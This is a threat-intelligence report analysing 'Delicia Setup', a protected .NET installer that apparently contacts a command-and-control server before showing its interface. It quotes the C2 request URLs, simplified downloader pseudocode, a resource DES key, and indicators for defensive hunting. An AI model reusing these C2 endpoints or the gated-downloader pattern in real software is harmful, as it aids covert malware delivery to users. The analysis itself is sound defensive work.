

# DragonsGate: Delicia Setup — Protected .NET Downloader and Server-Gated Installation

**Analysis date:** November 10, 2026  
**Status:** Ongoing analysis — pre-GUI C2 confirmed; controlled-response behavior documented; follow-on payload and acceptance condition not recovered  
**Classification:** Suspected DragonsGate-associated, server-gated downloader distributed as a consumer application installer

> **Scope and confidence.** This report documents behavior observed in the analyzed Delicia installer and static indicators from related samples. The association with DragonsGate is based on shared network conventions, distribution characteristics, and prior hunting results; it should not be interpreted as proof of an identical codebase or payload. Protector-related strings do not by themselves establish which protection product is in use.

## Executive summary

A signed Windows installer presented as **Delicia Setup** was examined after being associated with a broader cluster of suspicious consumer-application installers. The sample is a **32-bit, obfuscated .NET executable** that communicates with `getapprecipe.com` during its startup sequence, **before the normal application installer interface is displayed**.

Dynamic inspection confirmed an HTTP GET to a parameterized C2 URL, an HTTP **200 OK** response with a **32-byte body**, and application code that reads the response into a managed byte array. The response subsequently enters character-oriented processing (`Enumerable.TakeWhile` was observed), but the exact acceptance check and any gated follow-on download have not been conclusively reconstructed.

A subsequent controlled-response experiment used an isolated local HTTPS listener to provide a 32-character ASCII hex response whose **decimal-digit sum is even**. In multiple runs, the installer displayed a distinct **update/progress interface stalled at 72%** and issued additional polling-like requests. This observation is reproducible but does **not** establish that even parity is sufficient to unlock the real server gate or that a payload was delivered.

The executable also contains extensive control-flow obfuscation, a runtime string table, dynamically generated code, encrypted-resource handling, and embedded assembly dependencies. A decoded string sequence includes `babelvm`, `SimpleAssemblyExplorer`, `AssemblyServer`, and `smoketest`. These are noteworthy **protection / inspection-related artifacts**, not proof that Babel Obfuscator is the protector or that those tools are actively blocked.

Instrumentation with **Frida during process startup** repeatedly caused the sample to terminate before displaying its installer UI. The same executable can proceed to the GUI in other execution conditions. This behavioral difference is reproducible but **does not yet prove a deliberate anti-Frida check**.

## Sample information

| Field | Value |
|---|---|
| Analyzed installer | `Delicia.Setup.exe` (also analyzed under `DocumentRecipeApp_44853.exe`) |
| SHA-256 | `b73de00b2bbd45ab7491ae9c5a31f60aa4e42bd5d3025a47fdbcbb3cdb5c18c0` |
| File type | Windows PE, 32-bit .NET executable |
| Version observed | `1.3.5.7` |
| Code-signing subject | `UTAH TECHNICAL, LLC` (observed in the associated sample set) |
| Family assessment | DragonsGate-associated / suspected cluster membership |
| Full second stage | Not recovered / not confirmed |

A valid signing identity, where present, is **not evidence that the software is benign**. The signer is also a useful clustering lead, but the certificate details and sample-by-sample verification should be retained separately before asserting that every related binary carries the same certificate.

## Observed startup and network behavior

The maliciously interesting activity occurs **before** the expected installer GUI. In the examined execution path, Delicia constructs and issues an HTTP GET through a managed `HttpClient` downloader:

```http
GET /?ver=4f09&chan=c84&lang=f5f&arch=032&build=ad2&bg0b=d15add HTTP/1.1
Host: getapprecipe.com
User-Agent: Mozilla/5.0
```

**Observed endpoint:**

```text
https://getapprecipe.com/?ver=4f09&chan=c84&lang=f5f&arch=032&build=ad2&bg0b=d15add
```

The response was observed with:

```text
HTTP status: 200 OK
Content-Length: 32
Content-Type: text/html; charset=UTF-8
Server: cloudflare
cf-cache-status: DYNAMIC
```

One captured ASCII response body was:

```text
6469BAAE71FE19C84CF7D1B847E603FB
```

This is **32 ASCII hexadecimal characters**, not a verified file hash or cryptographic digest. Its value may be transient, and the mechanism by which the server generates it is not established. The 32-character format is consistent with responses observed in other suspected DragonsGate-associated installers.

### Server-response validation: current status

The response is consumed by the application after the download completes. Character-wise processing was observed via `Enumerable.TakeWhile()`. The precise predicate and ultimate branch or authorization decision remain unresolved.

For the captured response, the sum of *decimal characters only* (`0`–`9`, excluding `A`–`F`) is **91 (odd)**, whereas the sum of **all characters interpreted as hexadecimal digits** is **268 (even)**. Prior related samples prompted investigation of a possible decimal-digit-parity gate, **but no such rule is confirmed for Delicia**. Neither calculation should be treated as proof of authorization behavior.

A successful second-stage fetch, payload execution, or persistence mechanism **has not been observed in this Delicia run**.

## Managed downloader: confirmed execution path

The original obfuscated assembly export preserves the implementation of the downloader identified at **metadata token `0x0600037D`** (RVA `0x0003BDA8`). In a deobfuscated naming scheme it had previously been labeled `Class63.a()`; the original identifiers are not human-readable.

Its method signature has the structure:

```csharp
public static byte[] a(string url, /* progress callback */ progress,
                       float startProgress, float endProgress,
                       string statusText)
```

The following operations are visible in its body and were correlated with the live C2 request:

```csharp
var request = new HttpRequestMessage(HttpMethod.Get, url);
request.Headers.UserAgent.ParseAdd(/* decoded agent */);
var response = httpClient.SendAsync(request, /* options */).GetAwaiter().GetResult();
var stream = response.Content.ReadAsStreamAsync().GetAwaiter().GetResult();
// Copy stream data into a MemoryStream.
byte[] body = memoryStream.ToArray();
// Reject an empty response and return the downloaded bytes.
return body;
```

*Pseudocode simplifies the obfuscated control-flow dispatcher; it is not a byte-for-byte source reconstruction.*

When this method was reached dynamically, the URL argument matched `getapprecipe.com`, the request's user agent was `Mozilla/5.0`, and the HTTP response status was `200` with `Content-Length: 32`. The response was read through an **8,192-byte temporary buffer** (`0x2000`), distinct from the 32-byte actual response.

The application initializes a shared `HttpClient` using `HttpClientHandler`. Its `UseProxy` property and timeout are populated using obfuscated constants. The effective proxy behavior in the original environment is not established here. The precise interception configuration and instrumentation details are outside this report’s scope.

## Controlled-response observations and GUI comparison

An isolated **local HTTPS listener** was used in a controlled analysis environment to supply a 32-character response to the installer's pre-GUI check. The test response preserved the observed hexadecimal format and length but adjusted one digit to produce an **even sum of decimal digit characters**:

| Response | Value | Decimal-digit sum | Context |
|---|---|---:|---|
| Observed external-server response | `6469BAAE71FE19C84CF7D1B847E603FB` | 91 (odd) | Original 32-byte server response seen during analysis |
| Controlled local response | `7469BAAE71FE19C84CF7D1B847E603FB` | 92 (even) | Supplied by the local test listener |

These strings are **server-response values, not confirmed hashes**. The test establishes that the local response was delivered over HTTPS and that the subsequent behavior can be observed reproducibly. It does **not** prove that parity alone determines acceptance: we have not isolated all other conditions, and the legitimate server may provide different content for different request classes.

### Normal installer vs. update/progress interface

**Comparison using the original analysis screenshots:**



Individual screenshots: [Normal setup GUI](assets/delicia_normal_setup.png) · [72% update screen](assets/delicia_update_72_percent.png)

The screenshots show **different UI states**; they do not on their own establish the precise decision or order of execution that selected each state. The alternate 72% screen was observed repeatedly with the controlled even-digit-sum response, including during a separately monitored run.

### Repeated requests under the controlled response

The local listener logged the following seven Delicia requests during a representative run on November 10, 2026. All received HTTP `200` with the same **32-byte test response**:

| Time (UTC) | Request parameters | Observation |
|---|---|---|
| 20:05:04 | `ver=4f09&chan=c84&lang=f5f&arch=032&build=ad2&bg0b=d15add` | Initial observed pattern |
| 20:05:05 | `ver=e9e5&chan=84a&lang=3ca&arch=3b9&build=648&bg0b=d15add` | Second parameter pattern |
| 20:05:07 | `ver=3726&chan=728&lang=f12&arch=9ed&build=f17&uid=1b8edc89&bg0b=d15add` | First `uid` request |
| 20:05:12 | same base parameters; `uid=1b8cdc8b` | Repeated request, ~5 seconds later |
| 20:05:22 | same base parameters; `uid=1b92dc95` | Repeated request, ~10 seconds later |
| 20:05:37 | same base parameters; `uid=1b96dc91` | Repeated request, ~15 seconds later |
| 20:05:37 | `ver=40df&chan=a8b&lang=225&arch=d8b&build=ce3&bg0b=d15add` | Additional request immediately after last `uid` request |

The intervals between `uid` requests are consistent with **retry or polling behavior with increasing delays**, though their exact purpose is unknown. Another run showed a very similar request sequence with different `uid` values and also reached the 72% screen.

**Limitations:** The local listener intentionally returned the same short value for every request. Consequently, the observed stall could reflect an unfulfilled next-stage request, failed authorization, or another unmet protocol condition. No follow-on executable was delivered by the local listener, and no complete second-stage payload was recovered. Prior observations of possible randomly named `%TEMP%` executable handling remain investigative leads rather than confirmation of a successfully written or executed stage.

## Obfuscation and runtime protection artifacts

### Control-flow flattening and dynamic code

Large methods, including startup code, contain extensive `switch` dispatchers, opaque constant expressions, and non-descriptive identifiers. Static analysis also revealed calls or references to:

- `System.Reflection.Emit.TypeBuilder` and `MethodBuilder` for runtime-generated methods or types.
- `AppDomain.CurrentDomain.GetData()` / `SetData()` for application-domain storage.
- `Assembly.GetExecutingAssembly().GetManifestResourceStream(...)` for embedded resources.
- Native memory-management and PE-structure-related routines, including `VirtualAlloc`, import/relocation handling, and the identifier `MappedPeImage`.

The **presence of PE-mapping code or strings does not prove that the observed C2 response led to an in-memory PE payload**. That connection remains unconfirmed.

### Decoded string-table artifacts

A Base64-decoded buffer underwent additional in-place byte transformations before revealing this sequence:

```text
System.Reflection.Assembly
GetEntryAssembly
get_FullName
op_Inequality
get_Length
GetTypeFromHandle
get_Name
IndexOf
ReadString
Add
get_Position
get_CurrentDomain
SetData
19389
AssemblyServer
SimpleAssemblyExplorer
babelvm
smoketest
```

The string combination is consistent with **reflection-based inspection, runtime reconstruction, or protective tooling logic**, but its exact use is not established. In particular:

- **`babelvm`**: a potential Babel-related virtualization/protection marker; **not a confirmed identification of Babel.NET protection**.
- **`SimpleAssemblyExplorer`**: a name associated with .NET assembly inspection tools; may be a comparison target, an artifact of a protection library, or unrelated metadata.
- **`AssemblyServer` / `smoketest`**: potentially test, framework, or anti-tamper-related identifiers; specific roles unverified.
- **`GetEntryAssembly`, `get_FullName`, `IndexOf`**: plausibly allow assembly-name inspection, although no explicit blacklist comparison was recovered.

Another runtime string collection was obtained through an application-domain data key:

```text
gzltgCYeiDQF
```

The decoded collection contained hundreds of strings, including labels related to runtime components and PE mapping. This key is an **internal implementation artifact**, not a network IOC.

### Embedded dependencies and protected resource handling

The installer uses **Costura-style embedded assembly resolution**, including assembly-name to resource-name mappings such as:

```text
costura
costura.costura.dll.compressed
costura.system.memory.dll.compressed
costura.system.buffers.dll.compressed
costura.system.valuetuple.dll.compressed
costura.system.runtime.compilerservices.unsafe.dll.compressed
```

Costura dependency embedding is common in legitimate .NET applications and is **not independently malicious**.

Decryption-related code was also observed using `DESCryptoServiceProvider`, a `CryptoStream`, and a stream reader; another routine included RSA/SHA-1 hash verification. One serialized resource record exposed this **DES key/IV pair**:

```text
DES key: 05ACCE2E8003FCE1
DES IV:  B1EE5F6037850A05
```

Other DES-provider objects displayed different key/IV values, but these were **not verified as explicitly assigned cryptographic material**; .NET can initialize provider keys and IVs when their properties are read. The verified pair is included solely as a **resource-protection analysis artifact**, not a C2 secret or family-wide indicator.

## Instrumentation-related behavior

When the process was **spawned with Frida attached before execution**, Delicia repeatedly terminated prior to displaying the installer GUI. The behavior was observed even with minimal instrumentation; hooks also recorded process enumeration followed by a clean `ExitProcess(0)` call.

Additional tracing showed the terminating call originated from executable memory outside the original PE image. Subsequent method-symbol resolution associated the exit path with managed application startup and an interop call to `ExitProcess`.

**Assessment:** The sample exhibits **Frida-sensitive startup behavior**, but the evidence does not distinguish intentional anti-instrumentation logic from startup/injection incompatibility, or establish that a named process blacklist was responsible. No broad claim of anti-Frida detection or debugger evasion is warranted yet.

This report intentionally omits ongoing interception, modification, and validation-test techniques.

## Related sample / infrastructure observations

Another sample in the suspected cluster, `FridgeChef.exe`, used an analogous parameterized URL structure but contacted a different domain:

| Sample | SHA-256 | Observed URL or feature |
|---|---|---|
| Delicia Setup | `b73de00b2bbd45ab7491ae9c5a31f60aa4e42bd5d3025a47fdbcbb3cdb5c18c0` | `getapprecipe.com`, five stable-style query parameters plus `bg0b=d15add` |
| FridgeChef | `e0a8bf4c4b7b274da79d4ce6142b923a4bfc8482d6c1f5a662cfb2382bf5ad28` | `softwaresetupwizard.com`, comparable query structure plus `y54h=b37764` |

FridgeChef example:

```text
https://softwaresetupwizard.com/?ver=039b&chan=193&lang=7cf&arch=01f&build=b03&y54h=b37764
```

Both URLs include parameter names `ver`, `chan`, `lang`, `arch`, and `build`, followed by a variable-looking `key=value` pair. An earlier related request format used `init=prep`. The change in the final parameter's naming is **an observed difference**, not evidence by itself of a new protocol or algorithm.

Prior hunting also associated samples named **Velin**, **SimmerSetup**, and **Cardamom** with the `UTAH TECHNICAL, LLC` signer cluster. These are **investigative pivots**, not proof that all samples share executable code or deployment infrastructure.

Related hunt rules previously used in the investigation include:

```text
DragonsGate_SharedConstant_LFSR_Hunt_20261104
DragonsGate_Delicia_ProtectedVariant_20261109
```

Rule names are supplied for continuity; **rule source and false-positive validation are not included in this report**.

## Indicators and hunting pivots

### Network indicators

| Indicator | Type | Context |
|---|---|---|
| `getapprecipe.com` | Domain | Confirmed Delicia pre-GUI request |
| `softwaresetupwizard.com` | Domain | Observed FridgeChef comparison sample |
| `/?ver=4f09&chan=c84&lang=f5f&arch=032&build=ad2&bg0b=d15add` | URL path/query | Specific Delicia request; values may vary |
| `/?ver=039b&chan=193&lang=7cf&arch=01f&build=b03&y54h=b37764` | URL path/query | Specific FridgeChef request |
| `Mozilla/5.0` | User-Agent | Observed Delicia request; too generic to hunt alone |

### File and internal indicators

| Indicator | Type | Context |
|---|---|---|
| `b73de00b2bbd45ab7491ae9c5a31f60aa4e42bd5d3025a47fdbcbb3cdb5c18c0` | SHA-256 | Delicia installer |
| `e0a8bf4c4b7b274da79d4ce6142b923a4bfc8482d6c1f5a662cfb2382bf5ad28` | SHA-256 | FridgeChef comparison sample |
| `UTAH TECHNICAL, LLC` | Code-signing subject | Cluster pivot; validate each signer independently |
| `babelvm` | Decoded string | Possible protection-related marker; not sufficient alone |
| `SimpleAssemblyExplorer` | Decoded string | Possible assembly-inspection reference |
| `gzltgCYeiDQF` | Internal string | AppDomain runtime data key |
| `Delicia.Fetch.Seal.v1` | Internal string | Observed runtime-table artifact; role unconfirmed |
| `Delicia.Folio.v1` | Internal string | Observed runtime-table artifact; role unconfirmed |

**Hunting guidance:** Favor **correlation** of installer provenance, signer, domain, query shape, and pre-GUI HTTP behavior. Do not alert solely on common dependency packaging, the user agent, `babelvm`, or a generic 32-character hexadecimal response.

## Confirmed vs. unresolved

| Question | Current assessment |
|---|---|
| Does Delicia contact `getapprecipe.com` during startup? | **Confirmed** — managed downloader observed with full URL |
| Does the server return a 32-byte body? | **Confirmed** for observed request — HTTP 200, 32-byte response |
| Is the response read into a .NET byte array? | **Confirmed** |
| Is there post-download character processing? | **Observed** — `TakeWhile`; full semantics unresolved |
| Does a controlled 32-byte even-digit-sum response reach the application? | **Confirmed** — local HTTPS responder logged the requests |
| Does the alternate update GUI appear under that response? | **Observed repeatedly** — stalled at 72% |
| Is decimal-digit parity the acceptance rule? | **Unconfirmed** — even response alone does not demonstrate authorization |
| Is BabelVM the active protector? | **Unconfirmed** — decoded `babelvm` marker observed |
| Does the sample contain protected resource/decryption code? | **Confirmed**; purpose of each routine not fully mapped |
| Does Frida alter pre-GUI execution? | **Observed repeatedly**; underlying cause unknown |
| Is a downloaded PE mapped/executed in memory? | **Not demonstrated**; no full second-stage payload recovered |
| Are the comparison installers the same family? | **Suspected cluster relationship**, not established code identity |

## Conclusion

Delicia exhibits a distinctive **pre-GUI, parameterized HTTP check** that returns a short server-controlled value, within an installer protected by extensive .NET obfuscation and runtime machinery. The confirmed managed C2 request, 32-byte server response, and similarities to other suspicious installers support tracking this sample within the **suspected DragonsGate server-gated downloader cluster**.

The recovered `babelvm`/assembly-inspection strings and runtime decryption mechanisms reinforce the finding that the binary is heavily protected, but they do **not** identify the exact protection technology or establish a specific anti-analysis check. The controlled-response experiments reproduce a distinctive **72% update screen** and repeated C2 requests, but do not establish successful authorization, a delivered second stage, or an in-memory execution chain. Those remain open questions.

**Report scope:** Findings as of November 10, 2026. Local response substitution is described only at a high level; exact interception, instrumentation, and test-environment configuration are intentionally omitted.
